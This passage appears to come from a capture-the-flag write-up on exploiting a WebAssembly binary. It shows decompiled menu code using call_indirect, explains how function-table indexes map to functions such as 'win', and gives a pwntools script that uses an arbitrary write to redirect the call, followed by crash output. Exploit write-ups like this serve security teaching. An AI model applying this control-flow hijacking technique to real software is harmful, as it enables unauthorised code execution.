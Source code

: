```C
  var h:int_ptr = f - g;
  stack_pointer = h;
  h[19] = a; //<---- here
  h[18] = b;
  h[17] = c;
  h[16] = d;
  h[15] = e;
  ...
  br_table[B_f, B_e, B_d, ..B_c](r) //switch for the different options of the menu: typo, math, joke, default
  ...
  label B_e: //math
  ...
  var ra:int_ptr = h[19];
  var sa:int = ra[3];
  var ta:int = h[12];
  var ua:int = call_indirect(ta, sa);
  ...
  label B_d: //joke
  ...
  var za:int_ptr = h[19];
  var ab:int = za[1];
  call_indirect(ab);
  label B_c:
  ...
}
```
We see that if we choose "do some math" or "tell me a joke" in the menu, a `call_indirect` is made. The index of the function we want to call in the function table is read on the stack, at a given offset from `a`. So, for "math", we call the value at `a + 3`, which was `3`, and we can see in the `.wat` file that it correspond to the function named `diff`. For "joke", we call the value at `a + 1`, which is `1`, and the corresponding function is called `basic`. At `a + 2` we have `2`, which corresponds to `win`, but unfortunately for us this index is never called.

But what if we try to use our arbitrary write to overwrite one of the other indexes written to the stack? Let's try to overwrite the `3`, which is just before our buffer, and is an `int32`, so 4 bytes large. We'll write `2` instead, and hope it triggers win:
```python
name = 16*b"A" #padding
name += p32(-4, signed=True) #index at which we want to edit

p.sendline(name)

p.recvuntil(b"joke!\n")
p.sendline(b"1") #edit name
p.recvuntil(b"there?")
p.sendline(b"2") #value to write, in our case 2 is the index of `win` in the indirect call table
p.recvuntil(b"joke!\n")
p.sendline(b"2") #trigger the indirect call
p.interactive()
```
And we observe the following:
```
./exploit.py
[+] Starting local process '/usr/bin/wasmtime': pid 19365
[*] Switching to interactive mode
Give me a number:$ 4
Error: failed to run main module `bin.wasm`

Caused by:
    0: failed to invoke command default
    1: error while executing at wasm backtrace:
           0:  0x88e - <unknown>!menu
           1:  0x817 - <unknown>!menu
```